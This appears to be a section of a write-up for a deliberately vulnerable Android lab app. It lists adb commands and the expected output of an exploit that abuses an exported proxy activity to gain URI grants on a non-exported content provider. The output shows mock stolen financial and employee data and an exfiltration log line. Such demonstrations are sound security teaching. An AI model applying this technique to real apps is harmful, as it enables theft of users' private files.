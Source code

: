```bash

# Monitor for URI permission grants and data access in logs
adb logcat -s DocumentProcessor:D DocumentProvider:D

# Verify proxy activity is exported and accessible
adb shell dumpsys package com.documentmanager | grep -A 5 "IntentProcessorActivity"

# Check content provider configuration
adb shell dumpsys package com.documentmanager | grep -A 10 "DocumentContentProvider"

# Verify sensitive files exist in app directory
adb shell "run-as com.documentmanager ls -la /data/data/com.documentmanager/files/secure/"

# View actual sensitive document data
adb shell "run-as com.documentmanager head -5 /data/data/com.documentmanager/files/secure/Financial_Report_Q4_2024.pdf"

# Run the exploit script
python3 exploit/uri_exploit.py
```

**Expected Results:**
```
Direct Provider Access (Blocked):
Error while accessing provider:com.documentmanager.secure
java.lang.SecurityException: Permission Denial: opening provider com.documentmanager.providers.DocumentContentProvider 
from (null) (pid=12345, uid=2000) that is not exported from UID 10116

URI Permission Escalation (Success):
DocumentProcessor: Processing workflow intent JSON
DocumentProcessor: ⚠️ Adding READ URI permission grant
DocumentProcessor: ⚠️ Adding WRITE URI permission grant
DocumentProcessor: ✅ Workflow intent executed - URI permissions granted
STOLEN_DOCUMENT: File: Financial_Report_Q4_2024.pdf
STOLEN_DATA: Content: Revenue: $4.25M, Profit: $1.15M, Bank: 789-456-123-001
STOLEN_DOCUMENT: File: Employee_Database.xlsx  
STOLEN_DATA: Content: 125 employees, SSNs included, salary data, security clearances
DATA_EXFILTRATED: Sending Financial_Report_Q4_2024.pdf to evil server

Sensitive Data Exposed:
total 32
-rw------- 1 u0_a116 u0_a116  568 Business_Strategy_2025.pptx
-rw------- 1 u0_a116 u0_a116  624 Client_Contracts.docx
-rw------- 1 u0_a116 u0_a116  581 Employee_Database.xlsx
-rw------- 1 u0_a116 u0_a116  483 Financial_Report_Q4_2024.pdf

Sample Content:
CONFIDENTIAL - FINANCIAL REPORT Q4 2024
========================================
Total Revenue: $4,250,000
Net Profit: $1,150,000
Operating Expenses: $3,100,000

Exploit Test Output:
[+] Direct provider access blocked (expected)
[+] Proxy activity accessible and processing workflow intents
[+] URI permission grant successful via workflow intent processing
[!] VULNERABILITY CONFIRMED: Non-exported provider accessible via URI grants
[+] Sensitive data extracted: financial reports, employee records, client contracts
[+] Persistent access maintained via FLAG_GRANT_PERSISTABLE_URI_PERMISSION
```
